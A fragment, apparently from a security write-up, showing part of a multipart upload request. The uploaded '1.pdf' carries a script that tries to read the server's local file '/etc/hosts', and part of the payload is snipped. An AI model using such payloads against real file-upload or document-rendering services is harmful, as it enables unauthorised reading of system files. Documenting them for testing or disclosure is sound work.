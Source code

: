 ```
x.open("GET","file:///etc/hosts");

x.send();

</script> 

-----------------------------1216109310209138377833924362

Content-Disposition: form-data; name="Upload"; filename="1.pdf"

Content-Type: application/pdf


<script>
-----snipped-----

....
...

-----------------------------1216109310209138377833924362

Content-Disposition: form-data; name="Upload"

Upload

-----------------------------1216109310209138377833924362
```
